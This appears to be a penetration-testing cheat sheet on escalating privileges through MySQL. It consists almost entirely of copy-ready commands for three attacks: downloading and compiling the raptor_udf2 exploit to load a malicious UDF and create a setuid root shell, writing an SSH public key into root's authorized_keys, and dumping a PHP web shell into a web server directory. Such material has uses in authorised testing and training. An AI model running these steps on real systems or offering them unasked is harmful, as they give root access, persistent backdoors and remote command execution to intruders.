 ```yaml
---
title: "Mysql Privilege Escalation"
date: 2024-6-27
tags: ["Exploitation", "Privilege Escalation In Databases", "Mysql", "RCE", "Database", "php", "UDF"]
---
```


### Abuse #1: User Defined Function (UDF)

```console
# Get the raptor_udf2.c
wget https://www.exploit-db.com/raw/1518 -O raptor_udf2.c
```

```console
# Compile the source script
gcc -g -c raptor_udf2.c
```

```console
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

```console
# Copy to target folder
cp raptor_udf2.so /dev/shm/raptor_udf2.so
```

```console
# Connect to database as root
mysql -u root -p<PASSWORD> mysql
```

```console
# UDF
create table foo(line blob);
```

```console
insert into foo values(load_file('/dev/shm/raptor_udf2.so'));
```

```console
# Get plug-in directory
show variables like '%plugin%';
```

```console
+-----------------+---------------------------------------------+
| Variable_name   | Value                                       |
+-----------------+---------------------------------------------+
| plugin_dir      | /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
| plugin_maturity | gamma                                       |
+-----------------+---------------------------------------------+
```

```console
# Copy the plugin_dir value
select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so'; 
```

```console
create function do_system returns integer soname 'raptor_udf2.so';
```

```console
# RCE
select do_system('cp /bin/bash /tmp/shell; chmod 4777 /tmp/shell');
```

---

### Abuse #2: Add ssh public key to root

```console
# Connect to database as root
mysql -u root -p'<PASSWORD>' mysql
```

```console
# Check privilege
select current_user();
```

```console
show grants for root@localhost;
```

```console
# If mysql file write is not able to append or overwrite authorized_keys
select "BASE64_PUB_KEY" into outfile "/root/.ssh/authorized_keys2";
```

---

### Abuse #3: Create php File from Database to RCE

```console
create table test(stuff text);
```

```console
insert into test values('<?php system($_REQUEST["cmd"]); ?>');
```

```console
select * from test into dumpfile 'C:\\xampp\\htdocs\\cmd.php';
```
